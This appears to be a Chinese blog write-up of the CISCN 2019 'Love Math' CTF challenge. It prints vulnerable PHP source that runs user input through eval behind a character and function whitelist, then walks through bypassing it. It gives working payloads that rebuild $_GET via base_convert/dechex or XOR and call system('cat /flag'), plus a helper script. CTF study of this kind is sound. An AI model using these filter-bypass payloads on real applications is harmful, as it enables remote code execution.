 ```yaml
---
title: buuoj刷题记录7
date: 2020-01-10 22:19:24
tags:
 - buuctf
 - web
 - 命令执行
categories: 
 - 刷题记录
---
```


## CISCN 2019 初赛 Love Math

## 0x00 基础

`eval`可以执行PHP语句

`hex2bin`可以将十六进制的字符转成字符串，结果是字符串类型

`dechex`将十进制转换成十六进制，结果是字符串类型

PHP中数组除了可以使用[ ]  还可以使用{ }

PHP中调用shell命令使用`system()`

<!--more-->

PHP中关于进制转换函数,*dec 都是整型，其他都是字符串类型

https://blog.csdn.net/Auuuuuuuu/article/details/88778852

## 0x02 分析

源码分析

```php
<?php
error_reporting(0);
//听说你很喜欢数学，不知道你是否爱它胜过爱flag
if(!isset($_GET['c'])){
    show_source(__FILE__);
}else{
    //例子 c=20-1
    $content = $_GET['c'];
    if (strlen($content) >= 80) {
        die("太长了不会算");
    }
    $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]'];
    foreach ($blacklist as $blackitem) {
        if (preg_match('/' . $blackitem . '/m', $content)) {
            die("请不要输入奇奇怪怪的字符");
        }
    }
    //常用数学函数http://www.w3school.com.cn/php/php_ref_math.asp
    $whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
    preg_match_all('/[a-zA-Z_\x7f-\xff][a-zA-Z_0-9\x7f-\xff]*/', $content, $used_funcs);  
    foreach ($used_funcs[0] as $func) {
        if (!in_array($func, $whitelist)) {
            die("请不要输入奇奇怪怪的函数");
        }
    }
    //帮你算出答案
    eval('echo '.$content.';');
} 
```

会将输入的字符进行过滤，过滤了空格、换行符、制表符、单双引号、反引号、中括号，以及只能出现白名单中的单词。

最后有一个`eval`可以执行PHP语句，想办法构造$\_GET或者$\_POST

可以利用函数转变也可以使用异或

## 0x03 操作

payload1：`?sin=cat /flag&cos=system&c=$pi=base_convert(37907361743,10,36)(dechex(1598506324));$$pi{cos}($$pi{sin})`

![](/pic/23.png)

异或方法

开始用python写，字符串转十六进制，纠结了很久很久，只有int可以异或。还是选择PHP

```php
<?php
$need=['_GET','_POST','_REQUEST'];
$whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
foreach ($whitelist as $item )
{
    foreach ($need as $x)
    {

        if (in_array($x ^ $item^ $item ,$need))  //在PHP中异或
        {
            echo $x ^ $item;
            echo '|--- '.$x.' --- '.$item;
            echo '|<br/>';
        }
        
    }
}
?>
```

在结果中发现有一个纯数字的还有一个`9**0`,但是没想到怎么利用`9**0`

```bash
9**0|--- _GET --- fmod|
8"1&|--- _GET --- getrandmax|
85;!5|--- _POST --- getrandmax|
871#4+79|--- _REQUEST --- getrandmax|
7"=0|--- _GET --- hexdec|
75771|--- _POST --- hexdec|
7>5;|--- _GET --- hypot|
```

构造payload：`http://c5da3eac-8e0b-45e3-b441-971c92aa946c.node3.buuoj.cn/?c=$pi=decoct(31737)^hexdec;$$pi{abs}($$pi{cos})`

post 数据：`abs=system&cos=cat /flag`



![](/pic/24.png)

在PHP中无法直接数字与不加引号的字符异或，需要将数字转换成字符类型

![](/pic/25.png)

![](/pic/26.png)

![](/pic/27.png)

PHP异或操作，x位与x+n位异或结果是x位，后面n位直接丢弃。